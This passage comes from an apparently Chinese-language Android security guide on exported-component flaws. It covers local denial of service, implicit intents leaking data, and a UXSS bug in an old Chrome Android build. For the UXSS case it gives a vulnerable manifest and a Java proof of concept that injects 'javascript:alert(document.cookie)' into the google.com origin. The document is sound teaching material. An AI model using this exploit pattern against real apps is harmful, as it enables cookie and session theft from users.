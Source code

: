 ![](../pictures/androidac6.jpg)   

### 案例2：本地拒绝服务
可以被外部app 调用 export 出来的接口，导致 crash  

### 案例3：UXSS
漏洞存在于Chrome Android版本v18.0.1025123，class "com.google.android.apps.chrome.SimpleChromeActivity" 允许恶意应用注入js代码到任意域. 部分 AndroidManifest.xml 配置文件如下  
``` xml
<activity android:name="com.google.android.apps.chrome.SimpleChromeActivity" android:launchMode="singleTask"
 android:configChanges="keyboard|keyboardHidden|orientation|screenSize">
    <intent-filter>
        <action android:name="android.intent.action.VIEW" />
        <category android:name="android.intent.category.DEFAULT" />
    </intent-filter>
</activity>
```
Class "com.google.android.apps.chrome.SimpleChromeActivity" 配置 但是未设置 "android:exported" 为 "false". 恶意应用先调用该类并设置data为"http://google.com"  
再次调用时设置data 为恶意js 例如'javascript:alert(document.cookie)', 恶意代码将在http://google.com 域中执行.  

"com.google.android.apps.chrome.SimpleChromeActivity" class 可以通过Android api或者am（activityManager）打开. POC如下  
``` java
public class TestActivity extends Activity {
@Override
	public void onCreate(Bundle savedInstanceState) {
	    super.onCreate(savedInstanceState);
	    Intent i = new Intent();
	            ComponentName comp = new ComponentName(
	                             "com.android.chrome",
	                                "com.google.android.apps.chrome.SimpleChromeActivity");
	            i.setComponent(comp);
	            i.setAction("android.intent.action.VIEW");
	            Uri data = Uri.parse("http://google.com");
	            i.setData(data);
	
	            startActivity(i);
	
	                try {
	                    Thread.sleep(5000);
	                    }
	                      catch (Exception e) {}
	
	            data = Uri.parse("javascript:alert(document.cookie)");  
	            i.setData(data);
	
	            startActivity(i);
	}
}
```
### 案例4：隐式启动intent 包含敏感数据
暂缺可公开案例,攻击模型如下图。  
![](../pictures/androidac7.jpg)    
